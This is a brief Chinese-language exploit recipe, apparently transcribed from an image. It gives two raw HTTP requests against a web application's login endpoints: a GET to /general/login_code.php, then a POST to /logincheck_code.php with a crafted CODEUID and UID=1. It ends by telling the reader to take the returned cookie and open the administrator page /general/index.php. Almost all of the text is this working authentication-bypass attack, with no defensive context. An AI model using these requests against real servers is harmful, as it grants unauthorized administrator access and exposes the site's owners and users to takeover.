 0x00 发送第一个请求包

```
GET /general/login_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```

0x01 发送第二个请求包


```
POST /logincheck_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 56
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
CODEUID=%7BD384F12E-A758-F44F-8A37-20E2568306A7%7D&UID=1


```

获取cookie后访问管理员页面 /general/index.php
